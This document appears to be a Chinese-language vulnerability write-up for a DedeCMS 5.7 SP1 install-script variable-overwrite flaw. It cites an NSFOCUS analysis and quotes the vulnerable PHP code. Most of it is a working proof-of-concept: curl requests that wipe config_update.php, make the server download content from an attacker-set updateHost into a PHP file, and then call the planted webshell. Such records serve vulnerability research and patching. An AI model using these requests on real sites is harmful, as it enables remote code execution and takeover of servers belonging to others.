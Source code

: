 ## 5.7-SP1 20140313

### insLock 变量覆盖 - 远程 getshell 漏洞

影响版本

* <= 5.7 SP1

参考连接

* [Dedecms远程写文件漏洞分析](http://blog.nsfocus.net/dedecms-write-file-vuln/)

Poc

```
# 清空 config_update.php
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php'
&nbsp; <font color="red">[×]</font> 远程获取失败

# 覆盖 updateHost、install_demo_name，实现远程文件下载
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/hello.php&updateHost=http://127.0.0.1/'
&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)

# 测试 shell
curl http://127.0.0.1/data/hello.php
```

关键代码

```
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	
	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
```

